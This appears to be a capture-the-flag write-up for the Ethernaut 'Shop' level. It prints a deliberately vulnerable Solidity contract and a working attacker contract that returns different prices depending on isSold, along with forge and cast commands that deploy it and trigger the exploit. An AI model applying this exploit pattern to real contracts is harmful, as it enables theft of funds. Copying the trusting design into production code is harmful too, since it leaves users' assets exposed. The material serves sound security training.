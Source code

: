 ## Shop Level Outline

**Difficulty : 4/10**

Сan you get the item from the shop for less than the price asked?

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x3aCd4766f1769940cA010a907b3C8dEbCe0bd4aB)

## Solution

Simmilar solution to level 11_Elevator. We need to make a function that returns two different values the first and second time that it is called.

Functions with the **view modifier** cannot modify state so we need to monitor the Shop contract for when the boolean `isSold` changes and return a different value based on when it equals true or false.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Buyer {
    Shop shop;

    constructor(address _shop) {
        shop = Shop(_shop);
    }

    function attack() public {
        shop.buy();
    }

    function price() external view returns (uint) {
        return shop.isSold() ? 1 : 100;
    }
}

interface Shop {
    function isSold() external view returns (bool);
    function buy() external;
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:Buyer --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "attack()" --gas 90000 --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading

